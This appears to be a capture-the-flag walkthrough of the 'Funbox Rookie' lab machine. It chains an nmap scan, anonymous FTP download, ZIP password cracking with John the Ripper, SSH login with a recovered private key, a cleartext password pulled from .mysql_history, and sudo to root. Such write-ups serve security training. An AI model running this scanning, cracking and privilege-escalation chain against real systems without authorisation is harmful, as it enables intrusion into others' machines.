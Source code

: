 # Funbox Rookie
## Enumeration
Lets start with doing a network scan of the IP address to identify possible assets (NOTE: This might take up quite some time)
```code
nmap -sV -sC -A -p- 192.168.54.107 -vv
```
In the output of the ```NMAP``` command, we realise that Port 21 is running on FTP and login is allowed.
```code
PORT      STATE    SERVICE REASON      VERSION
21/tcp    open     ftp     syn-ack     ProFTPD 1.3.5e
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
| -r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
| -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
|_-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
```
## Exploit
Now we know that the service running running on port 21 is FTP, we will visit the FTP server in our browser and download all the ZIP files.\
![image](https://user-images.githubusercontent.com/42378287/128554707-c95e2405-e5f0-4345-8b9b-03831450da2d.png)

Upon downloading the ZIP files, we realize that the ZIP files are all password-protected, and we will have to try to crack the password files using John.\
To do so, I have written a simple script to first convert the ZIP files into hashes, before running the hash against John. 
```code
zip2john anna.zip > anna.txt
zip2john ariel.zip > ariel.txt
zip2john bud.zip > bud.txt
zip2john cathrine.zip > catherine.txt
zip2john homer.zip > homer.txt
zip2john jessica.zip > jessica.txt
zip2john john.zip > john.txt
zip2john marge.zip > marge.txt
zip2john miriam.zip > miriam.txt
zip2john zlatan.zip > zlatan.txt
zip2john tom.zip > tom.txt
sudo rm -rf anna.zip ariel.zip bud.zip cathrine.zip homer.zip jessica.zip john.zip marge.zip miriam.zip zlatan.zip tom.zip
john --wordlist=/home/kali/Desktop/rockyou.txt anna.txt
john --wordlist=/home/kali/Desktop/rockyou.txt ariel.txt
john --wordlist=/home/kali/Desktop/rockyou.txt bud.txt
john --wordlist=/home/kali/Desktop/rockyou.txt catherine.txt
john --wordlist=/home/kali/Desktop/rockyou.txt homer.txt
john --wordlist=/home/kali/Desktop/rockyou.txt jessica.txt
john --wordlist=/home/kali/Desktop/rockyou.txt john.txt
john --wordlist=/home/kali/Desktop/rockyou.txt marge.txt
john --wordlist=/home/kali/Desktop/rockyou.txt miriam.txt
john --wordlist=/home/kali/Desktop/rockyou.txt zlatan.txt
john --wordlist=/home/kali/Desktop/rockyou.txt tom.txt
john --show anna.txt
john --show ariel.txt
john --show bud.txt
john --show catherine.txt
john --show homer.txt
john --show jessica.txt
john --show john.txt
john --show marge.txt
john --show miriam.txt
john --show tom.txt
john --show zlatan.txt
```
From the output of the script, we realize that only ```tom.zip``` could be cracked and the password is ```iuubire```. Unzipping ```tom.zip``` file reveals a PEM RSA private key file that could be used to SSH into a private server.
```code
ssh -i id_rsa tom@192.168.54.107
```
In the home directory of the server that we manage to SSH into, we discover a ```.mysql_history``` file that contains the password (```xx11yy22!```) to the user
```code
_HiStOrY_V2_
show\040databases;
quit
create\040database\040'support';
create\040database\040support;
use\040support
create\040table\040users;
show\040tables
;
select\040*\040from\040support
;
show\040tables;
select\040*\040from\040support;
insert\040into\040support\040(tom,\040xx11yy22!);
quit
```
With the password, we can execute ```sudo su``` command to obtain root privileges. In the root directory, there are 2 files ```flag.txt``` and ```proof.txt```. Our flag can be found in the ```proof.txt``` file. 
